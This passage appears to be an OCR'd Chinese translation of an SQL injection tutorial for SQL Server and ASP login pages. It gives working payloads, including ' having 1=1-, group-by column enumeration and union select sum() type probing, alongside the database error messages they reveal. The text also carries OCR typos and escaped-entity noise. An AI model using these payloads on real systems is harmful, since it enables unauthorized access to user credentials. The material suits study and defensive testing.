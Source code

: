 Insert into users values(0,&amp;apos;chris&amp;apos;,&amp;apos;password&amp;apos;,0x00ff)

Insert into users values(0,&amp;apos;fred&amp;apos;,&amp;apos;sesame&amp;apos;,0x00ff)

如果我们的攻击者想插入一个自己的用户。在不知道users表结构的情况下，他不可能成功。即使他比较幸运，至于privs字段不清楚。攻击者可能插入一个&amp;apos;1&amp;apos;，这样只给他自己一个低权限的用户。

幸运地，如果从应用程序（默认为ASP行为）返回错误消息，那么攻击者可以确定整个数据库的结构，并且可以以程序中连接SQLSERVER的权限度曲任何值。

（下面以一个简单的数据库和asp脚本来举例说明他们是怎么工作的）

首先，攻击者想获得建立用户的表的名字和字段的名字，要做这些，攻击者需要使用select语法的having子句：

Username：&amp;apos; having 1=1-

这样将会出现如下错误：

Microsoft OLE DB Provider for ODBC Drivers error &amp;apos;80040e14&amp;apos;

[Microsoft][ODBC SQL Server Driver][SQL Server]Column &amp;apos;users.id&amp;apos; is invalid in the select list because it is not contained in an aggregate function and there is no GROUP BY clause.

/process_login.asp, line 35

因此现在攻击者知道了表的名字和第一个地段的名字。他们仍然可以通过把字段放到group by子句只能感去找到一个一个字段名，如下：

Username：&amp;apos; group by users.id having 1=1-

出现的错误如下：

Microsoft OLE DB Provider for ODBC Drivers error &amp;apos;80040e14&amp;apos;

[Microsoft][ODBC SQL Server Driver][SQL Server]Column &amp;apos;users.username&amp;apos; is invalid in the select list because it is not contained in either an aggregate function or the GROUP BY clause.

/process_login.asp, line 35

最终攻击者得到了username字段后：

&amp;apos; group by users.id,users.username,users.password,users.privs having 1=1-

这句话并不产生错误，相当于：

select * from users where username=&amp;apos;&amp;apos;

因此攻击者现在知道查询涉及users表，按顺序使用列&amp;apos;id,username,password,privs&amp;apos;。

能够确定每个列的类型是非常有用的。这可以通过使用类型转化来实现，例如：

Username：&amp;apos; union select sum(username) from users-

这利用了SQLSERVER在确定两个结果集的字段是否相等前应用sum子句。尝试去计算sum会得到以下消息：

Microsoft OLE DB Provider for ODBC Drivers error &amp;apos;80040e07&amp;apos;

[Microsoft][ODBC SQL Server Driver][SQL Server]The sum or average aggregate operation cannot take a varchar data type as an argument.

/process_login.asp, line 35

这告诉了我们&amp;apos;username&amp;apos;字段的类型是varchar。如果是另一种情况，我们尝试去计算sum()的是数字类型，我们得到的错误消息告诉我们两个集合的字段数量不相等。
